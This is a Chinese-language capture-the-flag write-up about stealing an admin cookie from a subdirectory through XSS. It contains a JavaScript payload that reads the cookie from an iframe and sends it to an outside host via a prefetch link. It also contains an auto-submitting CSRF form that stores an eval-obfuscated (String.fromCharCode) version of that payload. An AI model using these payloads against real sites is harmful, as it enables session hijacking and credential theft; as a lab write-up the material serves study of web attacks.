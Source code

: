 如果我们在同一个域的子目录下，我们能看到当前目录的cookie，还有根目录的cookie，通过document.cookie也能读到。

但我们却无法在根目录读取到子目录的cookie，同样也没办法跨目录读cookie，不知道的可以自己去尝试一下。

因为发现存在admin目录，所以怀疑cookie是在admin目录下。

这里的思路是通过iframe引入一个admin目录，然后读取admin目录cookie，返回回来。

脚本
```

var iframe = document.createElement("iframe");
iframe.src = "../admin/";
iframe.id = "frame";
document.body.appendChild(iframe);

iframe.onload = function (){
  	var c = document.getElementById('frame').contentWindow.document.cookie;

	var n0t = document.createElement("link");
	n0t.setAttribute("rel", "prefetch");
	n0t.setAttribute("href", "//xxx/?" + c);
	document.head.appendChild(n0t);
}
```

如果测试过这个payload的话，你会发现，出问题了，因为onload被过滤了，而setTimeout函数需要eval，而这个函数进了沙箱...

这里突然发现还有一个功能，改名。

最最关键的问题是，index.php这个页面没有sandbox，也就是上面的payload是成立的，因为我们可以通过解字符来eval执行，这样就能绕过各种判断。

那么我们只要在提交的地方构造一个自动提交的表单，就能自动修改姓名，然后跳到index.php，执行js

payload
```
<form id="re" action="../rename.php" method="POST">
<input name="nname" type="text" value="<script>eval(String.fromCharCode(118, 97, 114, 32, 105, 102, 114, 97, 109, 101, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 105, 102, 114, 97, 109, 101, 34, 41, 59, 10, 105, 102, 114, 97, 109, 101, 46, 115, 114, 99, 32, 61, 32, 34, 46, 47, 97, 100, 109, 105, 110, 47, 34, 59, 10, 105, 102, 114, 97, 109, 101, 46, 105, 100, 32, 61, 32, 34, 102, 114, 97, 109, 101, 34, 59, 10, 100, 111, 99, 117, 109, 101, 110, 116, 46, 98, 111, 100, 121, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 105, 102, 114, 97, 109, 101, 41, 59, 10, 10, 105, 102, 114, 97, 109, 101, 46, 111, 110, 108, 111, 97, 100, 32, 61, 32, 102, 117, 110, 99, 116, 105, 111, 110, 32, 40, 41, 123, 10, 32, 32, 9, 118, 97, 114, 32, 99, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 103, 101, 116, 69, 108, 101, 109, 101, 110, 116, 66, 121, 73, 100, 40, 39, 102, 114, 97, 109, 101, 39, 41, 46, 99, 111, 110, 116, 101, 110, 116, 87, 105, 110, 100, 111, 119, 46, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 111, 111, 107, 105, 101, 59, 10, 10, 9, 118, 97, 114, 32, 110, 48, 116, 32, 61, 32, 100, 111, 99, 117, 109, 101, 110, 116, 46, 99, 114, 101, 97, 116, 101, 69, 108, 101, 109, 101, 110, 116, 40, 34, 108, 105, 110, 107, 34, 41, 59, 10, 9, 110, 48, 116, 46, 115, 101, 116, 65, 116, 116, 114, 105, 98, 117, 116, 101, 40, 34, 114, 101, 108, 34, 44, 32, 34, 112, 114, 101, 102, 101, 116, 99, 104, 34, 41, 59, 10, 9, 110, 48, 116, 46, 115, 101, 116, 65, 116, 116, 114, 105, 98, 117, 116, 101, 40, 34, 104, 114, 101, 102, 34, 44, 32, 34, 47, 47, 48, 120, 98, 46, 112, 119, 47, 63, 34, 32, 43, 32, 99, 41, 59, 10, 9, 100, 111, 99, 117, 109, 101, 110, 116, 46, 104, 101, 97, 100, 46, 97, 112, 112, 101, 110, 100, 67, 104, 105, 108, 100, 40, 110, 48, 116, 41, 59, 10, 125))</script>"/>
<input type="submit" value="提交">
</form>
<script>document.getElementById('re').submit()</script>
```

